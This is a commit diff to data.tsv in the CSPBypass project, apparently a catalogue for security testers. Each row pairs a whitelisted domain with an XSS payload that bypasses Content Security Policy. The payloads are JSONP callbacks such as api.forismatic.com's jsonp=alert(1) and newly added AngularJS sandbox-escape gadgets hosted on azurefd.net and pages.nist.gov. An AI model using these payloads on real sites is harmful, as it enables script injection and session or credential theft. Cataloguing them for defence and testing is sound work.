

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Updated the api.forismatic.com, added azurefd.net and nist.gov

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -19,3 +19,3 @@ api.duckduckgo.com	<script src="https://api.duckduckgo.com/?q=x&callback=alert&f
 api.flickr.com	<script src="https://api.flickr.com/services/feeds/photos_friends.gne?user_id=44979707@N00&friends=0&display_all=1&format=json&jsoncallback=alert"></script>
-api.forismatic.com	<script src="https://api.forismatic.com/api/1.0/?format=jsonp&method=getQuote&jsonp=alert&lang=en"></script>
+api.forismatic.com	<script src="https://api.forismatic.com/api/1.0/?format=jsonp&method=getQuote&jsonp=alert(1)"></script>
 api.getdrip.com	<script src="https://api.getdrip.com/client/forms/show?callback=alert(1)-"></script>
@@ -210 +210,3 @@ zhike.help.360.cn	<script src="https://zhike.help.360.cn/api/v1/robotWindow?call
 omtr2.partners.salesforce.com   <script src="https://omtr2.partners.salesforce.com/id?callback=alert"></script>
+resourceexplorer-ead9dsh0dvasgrar.b01.azurefd.net	<body ng-app ng-csp><script src="https://resourceexplorer-ead9dsh0dvasgrar.b01.azurefd.net/explorercdn/angular1.6/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+pages.nist.gov	<body ng-app ng-csp><script src="https://pages.nist.gov/opensource/js/angular.min.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
```
Also changed, not shown: 2 other files.
